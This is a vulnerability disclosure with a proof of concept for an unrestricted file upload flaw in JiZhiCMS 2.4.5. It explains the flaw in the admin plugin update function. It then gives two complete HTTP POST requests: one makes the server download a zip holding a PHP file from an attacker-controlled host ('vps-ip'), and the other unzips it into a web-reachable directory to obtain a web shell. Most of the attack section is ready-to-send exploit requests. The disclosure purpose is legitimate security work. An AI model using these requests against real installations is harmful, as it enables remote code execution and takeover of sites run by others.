

# JiZhiCMS is vulnerable to Unrestricted File Upload
## Description
    JiZhiCMS 2.4.5 is vulnerable to Unrestricted File Upload which allows remote attackers to execute arbitrary code by uploading a php file.
## Vendor Homepage
    https://github.com/Cherry-toto/jizhicms,https://www.jizhicms.cn/

## Author
    HuBenLab
## Proof of Concept
This vulnerability is at the plugin, we can download the specified zip through the control url, and then unzip it to upload a Trojan.

Let's analyze it in detail. The key code is in the update function in `app/admin/c/PluginsController.php`. The parameters we need to pass are filepath (used to control part of the file name) and action (choose the function to use, here we choose start-download) The approximate function is to create a zip file and then pull a file from the cloud to write to the current zip file.



Now that we have a zip, we can then use file-upzip to decompress it. We just need to pass the reference filepath to automatically unzip the zip to the `app/admin/exts/ directory`.

Use the following steps.

1. First compress the php file into a zip

   

2. upload to vps, download the zip file on the vps

  

  ```
  POST /index.php/admins/Plugins/update.html HTTP/1.1
  Host: jizhicms
  Content-Length: 94
  Accept: application/json, text/javascript, */*; q=0.01
  X-Requested-With: XMLHttpRequest
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  Origin: http://jizhicms
  Referer: http://jizhicms/index.php/admins/Plugins/index.html
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Cookie: PHPSESSID=ts87s3de2k4p79bdrm0mn14bs0
  Connection: close
  
  action=start-download&filepath=getshell&download_url=http://vps-ip/config.php.zip
  ```

  

  Then the zip is downloaded to the cache directory

  

3. unzip the zip, visit ip/app/admin/exts/filename to getshell

  

  ```
  POST /index.php/admins/Plugins/update.html HTTP/1.1
  Host: jizhicms
  Content-Length: 37
  Accept: application/json, text/javascript, */*; q=0.01
  X-Requested-With: XMLHttpRequest
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  Origin: http://jizhicms
  Referer: http://jizhicms/index.php/admins/Plugins/index.html
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Cookie: PHPSESSID=ts87s3de2k4p79bdrm0mn14bs0
  Connection: close
  
  action=file-upzip&filepath=getshell
  ```

  Visit ip/app/admin/exts/config.php to getshell